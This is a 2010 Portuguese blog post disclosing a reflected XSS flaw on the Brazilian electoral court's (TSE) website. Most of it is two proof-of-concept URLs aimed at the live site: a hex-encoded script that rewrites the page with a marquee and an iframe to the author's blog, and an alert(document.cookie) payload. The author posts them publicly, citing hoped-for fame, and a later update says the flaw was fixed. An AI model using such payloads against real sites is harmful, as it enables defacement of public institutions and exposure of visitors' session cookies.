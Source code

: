 ```yaml
---
layout: post
title: Rapidinha - TSE XSS
date: 2010-09-12 21:45
author: obrerodrigues
comments: true
categories: [Hacking]
tags: [pessoal]
---
```

Navegando por acaso no site do <a href="http://www.tse.gov.br/" target="_blank">Tribunal Superior Eleitora</a>l, encontrei uma falha que permite ataques do tipo XSS (já que estamos perto da eleição, bem que posso ganhar alguma fama por isso né?), resolvi postar por postar, e porque estou escrevendo um texto, sobre como tirar todo potencial desse tipo de falha, fazendo mais do que simplesmente exibir uma msgbox na tela, enfim, ai vai the proof of concept:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced"%3C%73%63%72%69%70%74%3E%64%6F%63%75%6D%65%6E%74%2E%74%69%74%6C%65%3D%22%54%53%45%20%58%53%53%65%64%22%3B%76%61%72%20%70%61%67%65%3D%22%3C%6D%61%72%71%75%65%65%3E%3C%68%31%3E%3C%63%65%6E%74%65%72%3E%42%72%65%6E%6E%30%3C%2F%68%31%3E%3C%2F%63%65%6E%74%65%72%3E%3C%69%66%72%61%6D%65%20%73%72%63%3D%68%74%74%70%3A%2F%2F%62%72%65%6E%6E%30%2E%77%6F%72%64%70%72%65%73%73%2E%63%6F%6D%3E%3C%2F%6D%61%72%71%75%65%65%3E%22%3B%64%6F%63%75%6D%65%6E%74%2E%62%6F%64%79%2E%69%6E%6E%65%72%48%54%4D%4C%3D%70%61%67%65%3B%61%6C%65%72%74%28%22%58%53%53%22%29%3B%3C%2F%73%63%72%69%70%74%3E</a>

ou simplesmente:

<a href="http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E" target="_blank">http://www.tse.gov.br/buscasite/cdd.jsp?usearch.p_mode=Advanced%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E</a>

<span style="color:#ffffff;">Update 15/09/2010</span>

<span style="color:#ffffff;">A falha foi corrigida mais rápido do que eu imaginava, como minhas provas não funcionam mais, só resta esperar a turma do XSSed.com validar e postar um mirror, <a title="Xssed - Brenn0" href="http://www.xssed.com/search?key=Brenn0" target="_blank">nesse link aqui </a>você encontra os sites vulneráveis a XSS que eu submeti aos arquivos do site, brevemente o do TRE também estará lá.</span>

<strong>=*</strong>
